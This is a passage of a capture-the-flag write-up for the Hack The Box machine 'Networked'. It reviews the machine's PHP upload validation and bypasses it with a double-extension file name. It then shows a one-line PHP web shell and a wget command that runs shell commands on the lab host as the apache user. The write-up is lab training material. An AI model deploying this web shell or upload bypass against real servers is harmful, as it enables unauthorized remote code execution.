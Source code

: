 ```php
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, re
    
    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>
```
So, given my poor php comprehension I believe this is checking for valid image extensions (jpg, png, gif, jpeg) and for a filesize less than 60000 bytes. It also will set permissions of the file to *rw* for the owner and *r* for group.other.

Navigating to http://10.10.10.146/upload.php, it looks like it matches what we can see in the upload.php file itself. I created a test.txt file and tried to upload it. Sure enough - I was denied due to file type. I wanted to test to make sure it was functioning to allow so I found a random jpg image (A-10s are the best) and successfully uploaded it to 10.10.10.146/photos.php

![Warthog](./images/warthog.png)
\ **Figure 3:** Warthog

In googling around for something that someone that I could use to leverage this I came across this: https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

I got a non-image result when I re-named that exact file "shell.php.png". This seems like a promising format for how to upload and still get it to execute the code. Now I need to figure out how to use the shell

my payload is this:
```php
<?=$_GET[0]($_POST[1]);?>
```
So given the url
```http://website.com/cmd.php?0=shell_exec -d 1=id```

In the URL, **?0=cmd** is the command passed through a GET variable, and I pass **1=id** as a POST variable.

```console
root@endeavour:~/htb/networked# wget -q -O - http://10.10.10.146/uploads/10_10_14_75.php.png?0=shell_exec --post-data="1=id"
�PNG
�
IHDR ���	pHYs���+IDATH�c\uid=48(apache) gid=48(apache) groups=48(apache)
```